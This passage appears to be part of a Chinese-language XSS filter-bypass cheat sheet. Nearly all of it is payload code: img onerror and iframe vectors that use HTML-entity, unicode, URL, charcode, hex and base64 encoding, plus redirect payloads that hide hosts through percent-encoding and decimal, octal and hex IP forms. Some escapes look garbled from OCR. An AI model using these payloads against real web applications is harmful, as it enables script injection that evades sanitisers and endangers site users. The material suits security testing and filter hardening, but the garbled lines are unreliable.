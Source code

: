 ```js
<img src="x" onerror="alert("xss");">
javasc&#x72;&#x69;pt:alert(/XSS/)    (编码了r和i)
<img src="x" onerror="eval('u0061u006cu0065u0072u0074u0028u0022u0078u0073u0073u0022u0029u003b')">
```

##### url编码绕过

```js
<img src="x" onerror="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))">
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
```

#####  Ascii码绕过

```js
<img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">
```

##### hex绕过

```js
<img src=x onerror=eval('x61x6cx65x72x74x28x27x78x73x73x27x29')>
```

##### base64绕过

```js
<img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```

#### 4.当url地址被过滤

##### 使用url编码

```js
<img src="x" onerror=document.location=`http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/`>
javasc&#x72;&#x69;pt:alert('XSShttp://')
```

##### 使用IP

###### 1.十进制IP

```js
<img src="x" onerror=document.location=`http://2130706433/`>
```

###### 2.八进制IP

```js
<img src="x" onerror=document.location=`http://0177.0.0.01/`>
```

###### 3.hex

```js
<img src="x" onerror=document.location=`http://0x7f.0x0.0x0.0x1/`>
```
